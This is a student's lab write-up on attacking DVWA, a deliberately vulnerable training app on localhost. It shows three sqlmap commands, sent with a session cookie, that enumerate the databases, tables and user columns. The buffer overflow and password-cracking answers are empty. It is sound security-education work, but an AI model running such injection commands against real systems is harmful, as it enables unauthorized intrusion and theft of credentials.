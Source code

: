 # Lab #1,22110085, Nguyen Truong, INSE330380E_01FIE
# Task 1: Software buffer overflow attack

**Question 1**:



# Task 2: Attack on database of DVWA

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:
## Getting all databases:
Set up the database for DVWA and go to the webiste
In SQL Injection Blind Type in UserID then save the URL
<img src="https://github.com/letmehear159/IS-Lab/blob/master/image1.png" alt="screenShot"><br>

Then open the developerMod and copy the Cookie of the website:
<img src="https://github.com/letmehear159/IS-Lab/blob/master/Cookie.png" alt="screenShot"><br>
Open SqlMap and starting getting information about all databases : 
Running injection code :
```sh
python sqlmap.py -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=efp6tollc8ushf113hl3b4b155" --dbs
```
<img src="https://github.com/letmehear159/IS-Lab/blob/master/database.png" alt="screenShot"><br>

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:
## Getting all tables:
Running injection code :
```sh
python sqlmap.py -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=efp6tollc8ushf113hl3b4b155" --tables
```
<img src="https://github.com/letmehear159/IS-Lab/blob/master/tables.png" alt="screenShot"><br>
## Getting all users information:
Running injection code :
```sh
python sqlmap.py -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=2&Submit=Submit#" --cookie="security=low; PHPSESSID=efp6tollc8ushf113hl3b4b155" --columns -T users --batch
```
<img src="https://github.com/letmehear159/IS-Lab/blob/master/users.png" alt="screenShot"><br>
**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
